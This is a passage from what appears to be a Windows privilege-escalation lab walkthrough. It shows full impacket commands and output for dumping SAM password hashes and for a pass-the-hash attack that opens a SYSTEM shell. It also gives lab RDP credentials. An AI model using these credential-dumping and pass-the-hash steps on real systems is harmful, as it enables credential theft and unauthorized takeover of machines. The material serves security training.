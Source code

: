 And use impacket to retrieve the users' password hashes:

```
Kali Linux

user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:

```
Kali Linux

user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.12.124
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
        
```

SeTakeOwnership

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. For this task, we will be taking a different route, however.

Log in to the target machine via RDP using the following credentials:

User: THMTakeOwnership

Password: TheWorldIsMine2022

To get the SeTakeOwnership privilege, we need to open a command prompt using the "Open as administrator" option. We will be asked to input our password to get an elevated console:
